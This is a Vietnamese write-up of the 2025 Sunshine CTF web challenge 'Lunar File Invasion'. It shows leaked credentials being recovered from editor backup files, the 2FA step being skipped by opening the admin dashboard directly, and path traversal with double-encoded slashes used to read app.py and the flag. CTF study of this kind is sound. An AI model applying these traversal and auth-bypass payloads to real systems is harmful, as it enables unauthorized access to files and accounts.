





# 2025 Sunshine CTF - Lunar File Invasion

Mô tả của challenge:
```
We recently started a new CMS, we've had issues with random bots scraping our pages but found a solution with robots! Anyways, besides that there are no new bug fixes. Enjoy our product!

Fuzzing is NOT allowed for this challenge, doing so will lead to IP rate limiting!

https://asteroid.sunshinectf.games
```
## Solution

Tôi thử kiểm tra xem có tệp `/robots.txt` không. Kết quả trả về:
```
# don't need web scrapers scraping these sensitive files:
Disallow: /.gitignore_test
Disallow: /login
Disallow: /admin/dashboard
Disallow: /2FA
```

Thử truy cập vào `/.gitignore_test`:

```
# this tells the git CLI to ignore these files so they're not pushed to the repos by mistake.
# this is because Muhammad noticed there were temporary files being stored on the disk when being edited
# something about EMACs.

# From MUHAMMAD: please make sure to name this .gitignore or it will not work !!!!

# static files are stored in the /static directory.
/index/static/login.html~
/index/static/index.html~
/index/static/error.html~
```

Thử truy cập vào cả 3 `/static directory` trên thì `/index/static/login.html~` trả về nội dung quan trọng:
```html
<input value="admin@lunarfiles.muhammadali" type="text" name="email">
<input value="jEJ&(32)DMC<!*###" type="text" name="password">
```

Truy cập vào `/login`, dùng email và password trong file HTML để đăng nhập. Khi đăng nhập thành công trang web đưa ta đến `2FA page`:



Thử truy cập vào `/admin/dashboard` ta đã bypass được 2FA và đến trang `Lunar File Management CMS`



Truy cập `Manage Files` ta thấy có 3 flie secret file txt. 

Nội dung `secret2.txt`:
```
From Muhammad:
so we triggered IR, one of the attackers somehow got their hands on our /etc/passwd file because it's on every Linux machine.

I did some research and a lot of the techniques they did were from Hacktricks website! :(((
```

Lúc này ta nghĩ ngay đến path traversal. Kiểm tra src của `/admin/lunar_shop`, ta tìm thấy một điểm quan trọng: 
```js
function fetchFileContent(filename) {
// no need ot URLEncode this is JS argument being pssed in,
// plug we already URLencoded via flask's | urlencode
const viewUrl = `/admin/download/${filename}`;
...
}
```

Thử tìm `app.py` với `https://asteroid.sunshinectf.games/admin/download/app.py` trang web trả về `302 Found`, tương tự `run.py` và `yourappenv` cũng vậy.

Thử thao tác đường dẫn bằng cách thêm dấu / để truy cập vào kiến ​​trúc bên trong với
`https://asteroid.sunshinectf.games/admin/download//app.py`:
```html
<p>You should be redirected automatically to the target URL: <a href="http://127.0.0.1:25307/admin/download/app.py">http://127.0.0.1:25307/admin/download/app.py</a>
```

Ta thấy chúng đang chạy trên cổng 25307.

Thử Path Traversal bằng urlencode (single-encoded %2f) để tìm app.py
```
https://asteroid.sunshinectf.games/admin/download/..%2f..%2f..%2fapp.py
```
Nó trả về `400 Bad Request` điều này chỉ ra trang web có blacklist of characters trong path traversal. Thử double-encode %252f:



Tăng mức độ taversal nhiều lần kết quả vẫn như vậy. Giờ hãy thử sử dụng relative path `./` thay vì urlencoded thành `.%252f` và thu được kết quả:



Nội dung `app.py`:
```python
import os

with open("./FLAG/flag.txt", "r") as f:
    FLAG = f.read()

from flask import *
from flask_login import (
    LoginManager,
    login_user,
    login_required,
    logout_user,
    current_user,
)
from flask_wtf.csrf import CSRFError

# blueprint stuff:
from models import *
from admin import admin_blueprint
from index import index_blueprint
# ^^ this is what I meant by:
# "the dir is"
# treated as a package in a sense.

# global
from extensions import *


# clean up the login page and make it functional then we can start piecing together the LFI dashboard
# functionality too

# Initializing the app-specific stuff:
app = Flask(__name__)

# registering the blueprint
app.register_blueprint(admin_blueprint, url_prefix="/admin")
app.register_blueprint(index_blueprint, url_prefix="/")
# app.static_folder = 'global_static'

app.config["SECRET_KEY"] = os.urandom(64).hex()
bcrypt_object.init_app(app)

# since we're directly pass in the app object we can directly use it in our templates with JINJA2 syntax
csrf.init_app(app)

# I know for a fact ppl will try to bruteforce the pin which is millions of requests,
# we're stopping that before it begins with the default rate-limit being set to 5 requests/second.

# TODO: remove this, just use NGINX, kills 2 birds with 1 stone bcs we can also config passwd for kev's test instance.

# Initialize Flask-Login
login_manager = LoginManager()
login_manager.init_app(app)
login_manager.login_view = (
    "index.login"  # Redirect to admin login page if not logged in
)
# the way this works is it checks if current_user.is_authenticated is set to True, this value is retrieved from
# the load_user() function (so it's called everytime implicitly on routes that have the @login_required() decorator


@login_manager.user_loader
def load_user(user_id):
    return session.query(User).get(user_id)


################################################################


# Wrapper for Error handling any invalid CSRF tokens.
@app.errorhandler(CSRFError)
def handle_csrf_error(error):
    return render_template(
        "error.html",
        err_msg=f"[ Invalid CSRF Token, if this persists please enable JavaScript. ]",
    ), 400


################################################################
def create_app():
    return app


if __name__ == "__main__":
    app = create_app()
    app.run(host="0.0.0.0", port=8000, debug=False)
```

Tuyệt, ta tìm được cờ nằm ở `/FLAG/flag.txt`. Vì vậy thay `app.py` thành `/FLAG/flag.txt`: 



Thành công tìm được flag.
